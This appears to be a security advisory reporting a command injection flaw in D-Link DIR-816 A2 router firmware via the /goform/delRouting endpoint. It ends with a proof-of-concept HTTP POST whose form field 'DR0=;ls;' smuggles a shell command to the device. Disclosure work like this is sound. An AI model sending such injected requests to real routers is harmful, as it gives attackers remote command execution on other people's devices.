




# Information


**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-816 A2

**Affected firmware version:** <=v1.10CNB05

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=6495


# Overview

The router D-Link DIR-816 A2 1.10B05 has a serious command injection vulnerability. Attackers can inject commands through the /goform/delRouting route to achieve remote command execution and even cause serious consequences.

# Vulnerability details

The handler function `delRouting` is registered in the `sub_42A954` function.


Here the string `Var` is assigned to `v11, v12, and v13` through the `sscanf` function.



In the function `sub_428FF0`, the `sprintf` function is used to implement command splicing and finally implement command execution.





# POC

```
POST /goform/delRouting HTTP/1.1
Host: 192.168.102.145
Content-Length: 8
Cache-Control: max-age=0
Origin: http://192.168.102.145
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.102.145/d_acl.asp/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=
Connection: close

DR0=;ls;
```

